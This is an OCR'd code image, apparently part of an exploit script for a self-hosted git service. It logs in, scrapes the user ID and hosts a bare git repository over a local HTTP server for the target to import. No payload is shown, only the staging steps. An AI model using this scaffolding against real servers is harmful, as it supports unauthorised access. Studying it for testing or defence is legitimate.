 ```
# Login                                                                                                                                                                                                      
s = requests.Session()                                                                                                                                                                                       
print('Logging in')                                                                                                                                                                                          
body = {                                                                                                                                                                                                     
    'user_name': USERNAME,                                                                                                                                                                                   
    'password': PASSWORD                                                                                                                                                                                     
}                                                                                                                                                                                                            
r = s.post(URL + '/user/login',data=body)                                                                                                                                                                    
if r.status_code != 200:                                                                                                                                                                                     
    print('Login unsuccessful')                                                                                                                                                                              
                                                                                                                                                                                                             
    sys.exit(1)                                                                                                                                                                                              
print('Logged in successfully')                                                                                                                                                                              

# Obtain user ID for future requests
print('Retrieving user ID')
r = s.get(URL + '/')
if r.status_code != 200:
    print('Could not retrieve user ID')
    sys.exit(1)

m = re.compile("<meta name=\"_uid\" content=\"(.+)\" />").search(r.text)
USER_ID = m.group(1)
print('Retrieved user ID: {}'.format(USER_ID))

# Hosting the repository to clone
gitTemp = tempfile.mkdtemp()
os.system('cd {} && git init'.format(gitTemp))
os.system('cd {} && git config user.email x@x.com && git config user.name x && touch x && git add x && git commit -m x'.format(gitTemp))
os.system('git clone --bare {} {}.git'.format(gitTemp, gitTemp))
os.system('cd {}.git && git update-server-info'.format(gitTemp))
handler = partial(http.server.SimpleHTTPRequestHandler,directory='/tmp')
socketserver.TCPServer.allow_reuse_address = True
httpd = socketserver.TCPServer(("", HOST_PORT), handler)
t = threading.Thread(target=httpd.serve_forever)
t.start()
print('Created temporary git server to host {}.git'.format(gitTemp))

```